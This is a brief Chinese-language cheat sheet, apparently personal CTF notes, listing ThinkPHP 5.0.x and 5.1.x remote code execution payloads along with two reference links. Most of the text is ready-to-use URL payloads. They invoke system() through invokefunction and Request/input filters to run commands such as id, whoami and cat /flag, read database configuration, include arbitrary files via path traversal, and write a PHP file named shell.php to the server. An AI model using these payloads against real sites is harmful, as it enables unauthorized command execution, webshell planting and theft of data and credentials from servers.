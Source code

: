 # Thinkphp——RCE

---

总结：3和5都有

https://www.cnblogs.com/0xdd/p/11102426.html

## Thinkphp3





## Thinkphp5

index模块要存在，如果不存在就看哪个模块存在进行替换（如：home、admin  {s=home、s=admin}）

总结：

```
https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html
```

Thinkphp 5.0.7

```
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat+/flag
```

Thinkphp 5.0.x

```
/index.php?s=index/think\config/get&name=database.username // 获取配置信息
/index.php?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
/index.php?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```

Thinkphp 5.1.x

```
/index.php?s=index/\think\Request/input&filter[]=system&data=pwd
/index.php?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
/index.php?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
/index.php?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

